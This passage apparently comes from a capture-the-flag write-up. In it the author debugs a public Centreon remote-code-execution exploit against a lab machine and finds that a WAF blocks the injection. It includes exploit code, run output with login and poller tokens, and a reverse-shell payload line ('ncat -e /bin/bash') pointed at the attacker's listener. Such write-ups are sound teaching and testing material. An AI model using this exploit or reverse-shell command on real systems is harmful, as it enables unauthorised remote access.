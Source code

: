```
        "id": "1",
        "o": "c",
        "centreon_token": poller_token,
    }

    send_payload = request.post(poller_configuration_page, payload_info)
    print("[+] Injecting Done, triggering the payload")

```

There’s a lot to not like about the way this exploit is written. The payload relies on the insecure `nc` with `-e` being on the target, and there’s no error checking. I added a print statement just above the last one to print the `send_payload.status_code`, and ran again:

```

root@kali# ./centreon-exploit.py http://10.10.10.157/centreon/ admin password1 10.10.14.30 443
[+] Retrieving CSRF token to submit the login form
[+] Login token is : 6e9b4561b4c05180b23c8d0b854ed7a0
[+] Logged In Sucssfully
[+] Retrieving Poller token
[+] Poller token is : 720954a0f1742c2428b9fc9c8c00a670
[*] Payload inject status code: 403
[+] Injecting Done, triggering the payload
[+] Check you netcat listener !

```

That’s why it’s failing. The injection POST is being blocked by the WAF.

I emptied out the payload line:

```

        # this value contains the payload , you can change it as you want
        #"nagios_bin": "ncat -e /bin/bash {0} {1} #".format(ip, port),
        "nagios_bin": "",

```

And ran again:

```

root@kali# ./centreon-exploit.py http://10.10.10.157/centreon/ admin password1 10.10.14.30 443
[+] Retrieving CSRF token to submit the login form
[+] Login token is : fe57a7dc6569207997e51a35b33e7a4a
[+] Logged In Sucssfully
[+] Retrieving Poller token
[+] Poller token is : 4654f45a045a9fea5c86d690ae9f02bc
[*] Payload inject status code: 200
[+] Injecting Done, triggering the payload
[+] Check you netcat listener !

```

